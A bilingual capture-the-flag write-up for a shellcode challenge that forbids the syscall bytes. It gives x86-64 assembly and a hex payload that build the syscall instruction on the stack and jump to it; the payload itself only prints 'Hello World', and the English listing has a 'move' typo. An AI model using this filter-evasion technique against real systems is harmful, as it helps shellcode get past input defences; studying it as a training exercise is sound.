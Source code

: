 # Shellcode Obfuscation 4
## Write-up
### Solution (Français)
Ici les contraintes qui nous sont données sont de ne pas utiliser les bytes "\x05\x0f", qui sont les bytes pour faire un syscall. La difficultée viens du fait qu'on ne peux pas manipuler les bytes passées. Il faut donc trouver comment executer un syscall sans l'instruction syscall.

Utiliser int 0x80 ne fonctionne pas étant donnée qu'on est en 64bit

Une des façons de faire notre syscall est de stocker les bytes "\x05\x0f" et d'utiliser une instruction jmp pour ensuite faire notre syscall.

Comme on ne veut pas modifier nos registres précedents, on peut utiliser le registre RCX pour pousser notre code. 
On mov 0x04 et 0x0e(pour éviter d'avoir nos bytes interdits dans le payload) dans CH et CL respectivement pour avant des les incrémenter. 
On les pousse dans le stack et on peut ensuite les executer en sautant a RSP

Voici le code pour faire ça:
``` asm
BITS 64 
push 0x1010101 ^ 0xa646c72
xor dword [rsp], 0x1010101
mov rax, 0x6f57206f6c6c6548
push rax
mov rdi,1
push 0xb
pop rdx
mov rsi,rsp
mov rax, 1

xor rcx,rcx
mov ch,0x04
inc ch
mov cl,0x0e
inc cl
push rcx
jmp rsp
```
Payload: `\x68\x73\x6d\x65\x0b\x81\x34\x24\x01\x01\x01\x01\x48\xb8\x48\x65\x6c\x6c\x6f\x20\x57\x6f\x50\xbf\x01\x00\x00\x00\x6a\x0b\x5a\x48\x89\xe6\xb8\x01\x00\x00\x00\x48\x31\xc9\xb5\x04\xfe\xc5\xb1\x0e\xfe\xc1\x51\xff\xe4`

Pas d'operations.
### Solution (English)
Here, the constraints given to us are not to use the "\x05\x0f" bytes, which are the bytes for a syscall. The difficulty lies in the fact that we can't manipulate past bytes. So we need to find a way of executing a syscall without the syscall instruction.

Using int 0x80 doesn't work, given that we're in 64bit.

One way of doing our syscall is to store the bytes ""\x05\x0f" and then use a jmp instruction to do our syscall.

As we don't want to modify our previous registers, we can use the RCX register to push our code. 
We move 0x04 and 0x0e (to avoid having our forbidden bytes in the payload) into CH and CL respectively before incrementing them. 
We then push them into the stack and can execute them by jumping to RSP.

Here's the code to do this:
```asm
BITS 64 
push 0x1010101 ^ 0xa646c72
xor dword [rsp], 0x1010101
move rax, 0x6f57206f6c6c6548
push rax
mov rdi,1
push 0xb
pop rdx
mov rsi,rsp
mov rax, 1

xor rcx,rcx
mov ch,0x04
inc ch
mov cl,0x0e
inc cl
push rcx
jmp rsp
```

Payload: `\x68\x73\x6d\x65\x0b\x81\x34\x24\x01\x01\x01\x01\x48\xb8\x48\x65\x6c\x6c\x6f\x20\x57\x6f\x50\xbf\x01\x00\x00\x00\x6a\x0b\x5a\x48\x89\xe6\xb8\x01\x00\x00\x00\x48\x31\xc9\xb5\x04\xfe\xc5\xb1\x0e\xfe\xc1\x51\xff\xe4`

No operations.